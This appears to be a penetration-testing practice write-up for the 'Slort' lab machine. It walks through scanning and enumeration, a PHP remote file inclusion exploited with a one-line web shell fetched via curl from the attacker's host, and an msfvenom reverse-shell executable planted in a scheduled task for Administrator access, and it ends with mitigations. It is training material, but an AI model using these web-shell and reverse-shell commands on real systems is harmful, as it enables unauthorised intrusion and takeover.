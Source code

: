 ```yaml
---
title: Slort
date: 2025-04-15
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough] 
image: slort.png
media_subpath: /assets/img/posts/2025-04-15-slort/
---
```

## Introduction
In this walkthrough we will be solving Proving Grounds Intermediate Windows box Slort. Let’s start ..

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
 sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check first 100 UDP ports to not to miss valuable services like SNMP.

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n --open
```

![image.png](image%202.png)

## Services

### Port 21

- I tried to login using `admin:admin`, `anonymous:anonymous`, `admin:' '`  but **couldn’t login**
- Searching for public exploits we see
    
    ![image.png](image%203.png)
    
    **maybe the last one could be useful**
    

### Port 139/445

- Tried anonymous access

```bash
smbclient -L //$IP/ -N 
```

but **not allowed**

- enum4linux

```bash
 enum4linux $IP
```

![image.png](image%204.png)

**nothing interesting**

### Port 3306

Our host **is not allowed** to connect to MariaDB server.

## Web

### Port 4443

- **We see phpinfo page PHPINFO**
    
    ![image.png](image%205.png)
    
    ![image.png](image%206.png)
    
    ![image.png](image%207.png)
    
    ![image.png](image%208.png)
    
- **Directory Fuzzing**

```bash
gobuster dir -u http://$IP:4443 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -x .php,.txt
```

### Port 8080

…

## Exploitation

![image.png](image%209.png)

I see RFI misconfiguration from PHPINFO page, that means we can include a web shell or reverse shell . First I included web shell and run cmd, it worked

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

```bash
curl http://192.168.103.53:4443/site/index.php?page=http://192.168.45.179/shell.php\&cmd=whoami
```

![image.png](image%2010.png)

 then I included reverse shell directly which returned me a reverse shell.

You can find reverse shell from the following [website](https://www.revshells.com/)

```bash
curl http://192.168.103.53:4443/site/index.php?page=http://192.168.45.179/shellnew.php
```

## Privilege Escalation

- [ ]  Situational Awareness
- [ ]  User/Group Privileges
- [ ]  PowerShell History(Transcription, Script Logging)
- [ ]  Sensitive Files
- [ ]  Insecure Service Executables
- [ ]  DLL hijacking
- [ ]  Unquoted Service Path
- [ ]  Application-based exploits
- [ ]  Kernel Exploits
- [ ]  Check root, user home, Documents, Desktop, Downloads directories.

I saw in root directory **Backup** folder where scheduled task was present so I changed it with my reverse.exe file

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.179 LPORT=8080 -f exe -o reverse.exe
```

and got a shell.

![image.png](image%2011.png)

Now we are Administrator.

## Mitigation

1. **Disable Remote File Inclusion (RFI)**: Set `allow_url_fopen=Off` and `allow_url_include=Off` in the `php.ini` configuration to prevent attackers from including remote files.
2. **Restrict File Permissions**: Ensure that only authorized users have write access to critical directories like `C:\`. Regularly audit and enforce least privilege access.
3. **Monitor and Restrict Scheduled Tasks**: Limit who can modify scheduled task executables and enable logging to detect unauthorized changes.
4. **Apply Principle of Least Privilege**: Ensure that services and scheduled tasks run with the minimal necessary permissions to limit the impact of privilege escalation.
